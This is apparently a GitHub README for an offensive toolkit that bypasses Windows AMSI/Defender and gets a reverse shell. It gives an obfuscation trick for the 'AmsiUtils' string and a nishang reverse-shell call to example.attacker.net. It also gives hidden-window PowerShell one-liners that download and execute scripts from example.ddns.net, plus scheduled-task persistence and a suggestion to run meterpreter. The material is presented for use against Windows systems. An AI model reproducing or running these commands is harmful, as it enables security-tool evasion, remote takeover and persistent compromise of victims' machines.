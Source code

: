 # Windows-AMSI-Defender-Bypass

::::Bypassing AMSI and getting a Reverse Shell
------------------------------------------------------------------------------------
Perfect for malicious macros, rubber ducky, or a RCE in a Windows System:

To make all these things work, I used a script that disables the AMSI:
From : https://amsi.fail

You can generate your own, but make sure it works.
-------------------------------------------------------------------------------------
AMSI fail script,
-----------------
fail.ps1:
---------
Some of those generated scripts use the "Amsi Utils", but it gets caught by the AMSI, so i defined it outside of the code
like this:

$am='Amsi'+'U'+'til'+'s' 

--------------------------------------------------------------------------------------------
Getting the shell:
-------------------
nish.ps1: 
-----------
The TCP nishang that we always use from: https://github.com/samratashok/nishang/tree/master/Shells

Defining this at the end of the script:

Invoke-PowerShellTcp -Reverse -IPAddress example.attacker.net -Port 443 

------------------------------------------------------------------------------------------------
Running all in one:
-------------------
trigger.ps1:  
------------
This script is going to be the trigger for the 2 invokes(fail.ps1, nish.ps1), it also defines the $am variable for the fail.ps1:

$n = (new-object net.webClient);$am='Amsi'+'U'+'til'+'s';iex ($n).DownloadString('http://example.ddns.net:80/fail.ps1');iex ($n).DownloadString('http://example.ddns.net:80/nish.ps1')

------------------------------------------------------------------------------------------------------------------------------------------------

Finally we will need to "Invoke-Expression" the trigger:
--------------------------------------------------------------
powershell -windowstyle hidden iex(new-object net.webclient).DownloadString('htt'+'p:/'+'/example.ddns.net:80/trigger.ps1')

Every child process running from this powershell session is going to run without the AMSI, so could easily run a meterpreter from this, but make sure to obfuscate it because meterpreter is way more intrusive.


---------------------------------------------

---------------------------------------------

To add an extra
-----------------
We can make it all run as many time as we want by scheduling these Invokes-Expression's:

sched.ps1:
----------
You can modify this to run whenever you want, in (New-TimeSpan -Minutes 'minutes between each run').



In this case you are going to run 2 Invokes:
                    
powershell -windowstyle hidden iex(new-object net.webclient).DownloadString('htt'+'p:/'+'/example.ddns.net:80/trigger.ps1')
powershell -windowstyle hidden iex(new-object net.webclient).DownloadString('htt'+'p:/'+'/example.ddns.net:80/sched.ps1')

You can make it run with only one Invoke by creating another .ps1.

These scripts are going to be in this repository: 
----------------------------------------
https://github.com/Filiplain/Windows-AMSI-Defender-Bypass

Make sure to define your IP or Domain into the files
And host a server where all the files are located
Don't forget the listener with the port that you defined in the nishang or any reverse-shell you use.


Invokes Map:
------------
                                                                 

                trigger.ps1                    
              /            \
          fail.ps1   ;  nish.ps1
                                                       



